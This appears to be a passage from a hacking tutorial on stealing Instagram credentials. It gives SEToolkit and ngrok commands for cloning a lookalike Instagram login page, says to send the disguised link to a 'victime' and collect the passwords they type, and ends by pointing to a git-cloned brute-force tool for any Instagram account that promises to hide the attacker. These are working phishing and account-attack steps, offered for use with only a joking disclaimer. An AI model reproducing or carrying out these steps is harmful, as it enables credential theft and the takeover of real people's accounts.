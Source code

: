 Now two things you can do either get the IP address of following tunneled which is redirecting traffic to our localhots port 80, get ip by copy pasting the URL "*http://feb91dce.ngrok.io*" in terminal with ping command (without specifing protocol - https ):

```shell
root@m4xx:~# ping feb91dce.ngrok.io

PING feb91dce.ngrok.io (xx.xx.xx.xx) 56(84) bytes of data.
```

It'll give you IP address of the above domain name copy paste it into setoolkit 

```shell
set:webattack> IP address for the
 POST back in Harvester/Tabnabbing 
 [192.168.0.119]:  "Past here"
```

Or just simply past the URL instad like :

```shell
set:webattack> IP address for the
 POST back in Harvester/Tabnabbing 
 [192.168.0.119]: feb91dce.ngrok.io 
 ```

 Now it'll ask for URL to clone the website 

 ```
 set:webattack> Enter the url to clone:https://www.instagrame.com/
 ```

 You can do it with any website you want to Harvester Credential.!But on your risk as you read the Disclaimer above :P

 Now Frome here SEToolkit automatcally starts apache serive for you and setup the whole webiste and host it on your local machine and with ngrok you have setup the port forwrding "Hurray.!!!!!"

 Now send the website to the victime i.e (http://feb91dce.ngrok.io)
 and use the social engineering you can also shorten the url and customize it to some intersting offers once user click to that link it'll take them to our phishing page which exactly looks like Original one and after user logged in you can see the password in setoolkit terminal



# Bruteforcing / Dictionery attack :

For this you have to download one program: 
This program will brute force any Instagram account you send it its way. Just give it a target, a password list and a mode then press enter and forget about it. No need to worry about anonymity when using this program, its highest priority is your anonymity,it only attacks when your identity is hidden. 

Git clone it by typing command inside terminal :

```shell
git clone https://github.com/m4xx101/Brutestagram.git
```
This programm is one of the best tool ik have weaked little bit to make it more effcient originally its written by *Mohamed*
